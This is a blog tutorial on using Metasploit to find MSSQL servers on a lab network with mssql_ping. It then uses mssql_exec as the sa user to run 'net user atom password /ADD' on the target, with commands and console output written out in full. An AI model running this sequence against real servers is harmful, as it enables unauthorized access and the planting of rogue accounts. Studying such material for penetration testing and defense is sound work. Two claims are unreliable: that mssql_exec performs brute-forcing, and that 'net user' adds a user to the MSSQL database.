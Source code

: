 ```yaml
---
draft: false
title: MSSQL Scanning with MSF
linkTitle: MSSQL Scanning
weight: 110
translationKey: mssql-scanning-with-msf
date: 2017-05-16T12:52:00+03:00
author: İbrahim Korucuoğlu ([@siberoloji](https://github.com/siberoloji))
description: Metasploit Framework provides an ability to search for MSSQL installations on other IP addresses in the network you are on.
url: /mssql-scanning-with-msf/
featured_image: /images/metasploit.jpg
categories:
   - Metasploit Framework
tags:
   - cybersecurity
   - metasploit framework
---
```

One of the possibilities that Metasploit Framework provides to the user is that you can search for MSSQL installations on other IP addresses in the network you are on. For this, a trace search is performed with UDP scanning.

When MSSQL is first installed, it listens on port 1433 by default. It may be set to listen on randomly selected ports rather than port 1433. In this case, port 1434 may be asked which port the listening is done on.

In the example below, modules containing the phrase `mssql` are first searched.

```bash
msf > search mssql

Matching Modules
**================**

   Name                                                      Disclosure Date  Rank       Description
   ----                                                      ---------------  ----       -----------
   auxiliary/admin/mssql/mssql_enum                                           normal     Microsoft SQL Server Configuration Enumerator
   auxiliary/admin/mssql/mssql_enum_domain_accounts                           normal     Microsoft SQL Server SUSER_SNAME Windows Domain Account Enumeration
   auxiliary/admin/mssql/mssql_enum_domain_accounts_sqli                      normal     Microsoft SQL Server SQLi SUSER_SNAME Windows Domain Account Enumeration
   auxiliary/admin/mssql/mssql_enum_sql_logins                                normal     Microsoft SQL Server SUSER_SNAME SQL Logins Enumeration
   auxiliary/admin/mssql/mssql_escalate_dbowner                               normal     Microsoft SQL Server Escalate Db_Owner
   auxiliary/admin/mssql/mssql_escalate_dbowner_sqli                          normal     Microsoft SQL Server SQLi Escalate Db_Owner
   auxiliary/admin/mssql/mssql_escalate_execute_as                            normal     Microsoft SQL Server Escalate EXECUTE AS
   auxiliary/admin/mssql/mssql_escalate_execute_as_sqli                       normal     Microsoft SQL Server SQLi Escalate Execute AS
   auxiliary/admin/mssql/mssql_exec                                           normal     Microsoft SQL Server xp_cmdshell Command Execution
   auxiliary/admin/mssql/mssql_findandsampledata                              normal     Microsoft SQL Server Find and Sample Data
   auxiliary/admin/mssql/mssql_idf                                            normal     Microsoft SQL Server Interesting Data Finder
   auxiliary/admin/mssql/mssql_ntlm_stealer                                   normal     Microsoft SQL Server NTLM Stealer
   auxiliary/admin/mssql/mssql_ntlm_stealer_sqli                              normal     Microsoft SQL Server SQLi NTLM Stealer
   auxiliary/admin/mssql/mssql_sql                                            normal     Microsoft SQL Server Generic Query
   auxiliary/admin/mssql/mssql_sql_file                                       normal     Microsoft SQL Server Generic Query from File
   auxiliary/analyze/jtr_mssql_fast                                           normal     John the Ripper MS SQL Password Cracker (Fast Mode)
   auxiliary/gather/lansweeper_collector                                      normal     Lansweeper Credential Collector
   auxiliary/scanner/mssql/mssql_hashdump                                     normal     MSSQL Password Hashdump
   auxiliary/scanner/mssql/mssql_login                                        normal     MSSQL Login Utility
   auxiliary/scanner/mssql/mssql_ping                                         normal     MSSQL Ping Utility
   auxiliary/scanner/mssql/mssql_schemadump                                   normal     MSSQL Schema Dump
   auxiliary/server/capture/mssql                                             normal     Authentication Capture: MSSQL
   exploit/windows/iis/msadc                                 1998-07-17       excellent  MS99-025 Microsoft IIS MDAC msadcs.dll RDS Arbitrary Remote Command Execution
   exploit/windows/mssql/lyris_listmanager_weak_pass         2005-12-08       excellent  Lyris ListManager MSDE Weak sa Password
   exploit/windows/mssql/ms02_039_slammer                    2002-07-24       good       MS02-039 Microsoft SQL Server Resolution Overflow
   exploit/windows/mssql/ms02_056_hello                      2002-08-05       good       MS02-056 Microsoft SQL Server Hello Overflow
   exploit/windows/mssql/ms09_004_sp_replwritetovarbin       2008-12-09       good       MS09-004 Microsoft SQL Server sp_replwritetovarbin Memory Corruption
   exploit/windows/mssql/ms09_004_sp_replwritetovarbin_sqli  2008-12-09       excellent  MS09-004 Microsoft SQL Server sp_replwritetovarbin Memory Corruption via SQL Injection
   exploit/windows/mssql/mssql_clr_payload                   1999-01-01       excellent  Microsoft SQL Server Clr Stored Procedure Payload Execution
   exploit/windows/mssql/mssql_linkcrawler                   2000-01-01       great      Microsoft SQL Server Database Link Crawling Command Execution
   exploit/windows/mssql/mssql_payload                       2000-05-30       excellent  Microsoft SQL Server Payload Execution
   exploit/windows/mssql/mssql_payload_sqli                  2000-05-30       excellent  Microsoft SQL Server Payload Execution via SQL Injection
   post/windows/gather/credentials/mssql_local_hashdump                       normal     Windows Gather Local SQL Server Hash Dump
   post/windows/manage/mssql_local_auth_bypass                                normal     Windows Manage Local Microsoft SQL Server Authorization Bypass
```

We will use the module named `auxiliary/scanner/mssql/mssql_ping` from the listed modules. In the example below, MSSQL scanning is performed on the IP address range `10.211.55.1/24`.

```bash
msf > use auxiliary/scanner/mssql/mssql_ping
msf auxiliary(mssql_ping) > show options

Module options (auxiliary/scanner/mssql/mssql_ping):

 Name Current Setting Required Description
 ---- --------------- -------- -----------
 PASSWORD no The password for the specified username
 RHOSTS yes The target address range or CIDR identifier
 TDSENCRYPTION false yes Use TLS/SSL for TDS data "Force Encryption"
 THREADS 1 yes The number of concurrent threads
 USERNAME sa no The username to authenticate as
 USE_WINDOWS_AUTHENT false yes Use windows authentification (requires DOMAIN option set)

msf auxiliary(mssql_ping) > set RHOSTS 10.211.55.1/24
RHOSTS => 10.211.55.1/24
msf auxiliary(mssql_ping) > exploit

> SQL Server information for **10.211.55.128:
> tcp = 1433
> np = SSHACKTHISBOX-0pipesqlquery
> Version = 8.00.194
> InstanceName = MSSQLSERVER
> IsClustered = No
> ServerName = SSHACKTHISBOX-0
> Auxiliary module execution completed
```

As can be seen in the result, MSSQL service is running on IP address `10.211.55.128` and Port number 1433. From this point on, **brute-force** attempts can be made using the `mssql_exec` module. Alternatively, medusa or THC-Hydra can be used.

```bash
msf auxiliary(mssql_login) > use auxiliary/admin/mssql/mssql_exec
msf auxiliary(mssql_exec) > show options

Module options (auxiliary/admin/mssql/mssql_exec):

 Name Current Setting Required Description
 ---- --------------- -------- -----------
 CMD cmd.exe /c echo OWNED > C:\owned.exe no Command to execute
 PASSWORD no The password for the specified username
 RHOST yes The target address
 RPORT 1433 yes The target port (TCP)
 TDSENCRYPTION false yes Use TLS/SSL for TDS data "Force Encryption"
 USERNAME sa no The username to authenticate as
 USE_WINDOWS_AUTHENT false yes Use windows authentification (requires DOMAIN option set)


msf auxiliary(mssql_exec) > set RHOST 10.211. 55.128
RHOST => 10.211. 55.128
msf auxiliary(mssql_exec) > set MSSQL_PASS password
MSSQL_PASS => password
msf auxiliary(mssql_exec) > set CMD net user atom password /ADD
cmd => net user atom password /ADD
msf auxiliary(mssql_exec) > exploit
```

In the example above, if the exploit is successful, a user is added to the MSSQL database by sending the `net user atom password /ADD` command. Note that this command is entered into the CMD variable with `set CMD net user atom password /ADD`.
